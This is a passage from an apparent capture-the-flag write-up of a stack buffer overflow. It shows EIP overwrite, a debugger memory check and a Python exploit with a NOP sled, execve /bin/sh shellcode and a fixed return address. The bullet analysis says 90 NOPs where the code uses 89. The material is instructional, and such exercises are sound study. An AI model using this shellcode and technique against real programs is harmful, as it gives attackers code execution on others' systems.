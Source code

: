 <img src="/site/posts/cyber-challenge/static/shell-test.png" width="70%" height="70%" align="center" class="center">
EIP its perfectly overwritten with "41414141". This confirms that there are 1012 bytes first.
### I need to know where I start writing in memory:
With a breakpoint immediately after my input, I can see the memory layout:


<img src="/site/posts/cyber-challenge/static/shell-memory.png" width="70%" height="70%" align="center" class="center">
Now in know that I start writing in these addresses, one of the first will be fine.
## Final exploit writing
x.py:

```python
import struct, sys

nope = "\x90"*900
nope2 = "\x90"*89
shell = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" #23bytes
jmp_address = struct.pack("<I", 0xffffcd60)

payload = nope+shell+nope2+jmp_address
print(payload)
sys.stdout.flush()
```

### Script analysis:

* 900 "nop", to slide the program to the beginning of the shell code
* The shell code
* 90 "nop" between shell code and return address
* The return address

In this way, I first added some code to my liking and later made sure the program jumps in it!
Result:
    
<img src="/site/posts/cyber-challenge/static/shell-result.png" width="70%" height="70%" align="center" class="center">
